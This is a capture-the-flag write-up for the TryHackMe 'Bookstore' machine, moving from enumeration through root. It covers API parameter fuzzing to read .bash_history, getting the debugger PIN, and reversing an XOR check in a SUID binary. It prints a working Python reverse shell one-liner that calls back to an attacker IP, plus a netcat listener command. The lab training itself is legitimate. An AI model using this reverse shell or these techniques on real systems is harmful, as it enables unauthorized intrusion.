THM Bookstore
Enumeration:
Nmap

We see that SSH port is open & Website port is open (80 & 5000)
It seems that some API is running on the 5000 port by seeing the disallowed entry in the robots.txt file
Website Enumeration
Simple default home page. However, there is button on the top right of the page to navigate into a login endpoint.
Inthe login page we found an message in the server response stating that its a work in progress & debugger's pin is in sid's bash_history's file.


Next, we enumerate the 5000 port to find another login endpoint.

we give a dummy username & password to get the following,

This also uses GET method to send the credentials & we also get the information about the Foxy REST API v2.0
Upon visiting the disallowed /api path. We get the following API documentation which also talks about the various routes allowed in the api.

Example:

Web Directory Enumeration
gobuster

We go the /console location on 5000 port to get the following.

We tried to use the previous version v1 as it sometimes remains unpatched & with vulnerabilities. We try to check if any LFI exists. But we do not get any result.

Next, we try fuzzing the parameter using wfuzz as follows.
wfuzz -u http://10.10.18.214:5000/api/v1/resources/books?FUZZ=.bash_history -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 404

We got a new parameter called show
We used the parameter to look for .bash_history & were successful.

we got the PIN. Lets enter it into the console endpoint.

we got a python interactive console.
Foothold
We use a python reverse shell taken from https://cybexray.github.io/revshell/revshell.html
We started a listner in our local kali machine using rlwrap nc -lvnp 8888

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.5.85",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
We got connection in our listener.

we get into a bash shell & get the user flag from sid's home directory.

Privilege Escalation
We look for sudo permissions for the user sid, but were prompted for password which we dont have.
Next, we searched for files using suid set & found a file in sid's home directory.

Lets check the file type

It is a linux executible. Lets run it.
It asks for magic number & then says incorrect.

We used strings command to check the executibel on the target machine itself & found some intresting results.

We can see it checks for a magic number & if its correct it should open a root /bin/bash -p shell for us. We need to find a way to get the magic number.
We start a web server using python on the target machine & get the linux executible to examine it in my local kali machine.
We opened ghidra's code browser to analyze the executible.

we found the checking condition.
local_14 = local_1c ^ 0x1116 ^ local_18;
The above code snippet tells that the value of local_14 will be cacluated by XOR operation of local_1c ^ 0x1116 ^ local_18
From the code we can get the following values:
local_14=0x5dcd21f4
local_18=0x5db3
0x1116
XOR operation is reversible. It means to get local_1c value which is our user input. We need to do the following.
local_1c= local_14 ^ 0x1116 ^ local_18;
We open a python interpreter and run the following. We got the magic number.

We run the program agin in the target machine. We entered the magic number found above & got into root shell. Finally we get the root flag.

Thanks!!